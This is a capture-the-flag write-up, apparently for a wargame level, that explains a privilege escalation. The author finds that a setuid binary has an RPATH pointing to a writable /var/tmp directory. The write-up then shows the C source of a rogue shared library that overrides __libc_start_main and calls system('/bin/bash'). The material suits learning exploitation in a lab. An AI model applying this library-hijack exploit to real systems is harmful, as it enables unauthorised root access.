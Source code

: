 We can see that multiple libraries are being linked at runtime, i question myself if injecting some kind of fake library at one of these files will allow to then execute another code and consequently escalate the priviliges. <br>

From the docs this seems really a thing because
```
If,  at  the  time that the program was started, the environment variable LD_LIBRARY_PATH was defined to contain a colon-separated list of directories, then these are searched.  

#### this cannot be applied because, almost certainly, the binary is setting the UID and the GID 
---> (As a security measure, this variable is ignored for set-user-ID and set-group-ID programs.)
```

we see that the binary also loads libraries from the /tmp folder... this can be a place to insert the shared library that will hijack the execution ... <br>

Also, checking the objdump we can see that the RPATH sustains my initial idea... 
```

objdump -p flag15
(...)
RPATH                /var/tmp/flag15
(...)
```

Event though it is not on the /tmp (which also works), the user level15 has rwx perms on /var/tmp/flag15 <br>

From: man dlopen
```
(ELF only) If the executable file for the calling program contains a DT_RPATH tag, and does not contain a DT_RUNPATH tag, then the directories listed in the DT_RPATH tag are searched.
```

My main idea was to redifine puts content but, and how the libc is structured that is not allowed, instead, and since the library has a main function (and is required), we can change that behaviour ! <br>

```
cmd: objdump -R flag15 

flag15:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE 
08049ff0 R_386_GLOB_DAT    __gmon_start__
0804a000 R_386_JUMP_SLOT   puts
0804a004 R_386_JUMP_SLOT   __gmon_start__
0804a008 R_386_JUMP_SLOT   __libc_start_main <-------------- we need to redefine this in our evil libc!!
```

The crafted lib looks like following!

```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>

int __libc_start_main(int *(main) (int, char * *, char * *), int argc, char * * ubp_av, void (*init) (void), void (*fini) (void), void (*rtld_fini) (void), void (* stack_end)){
        system("/bin/bash");

}
```
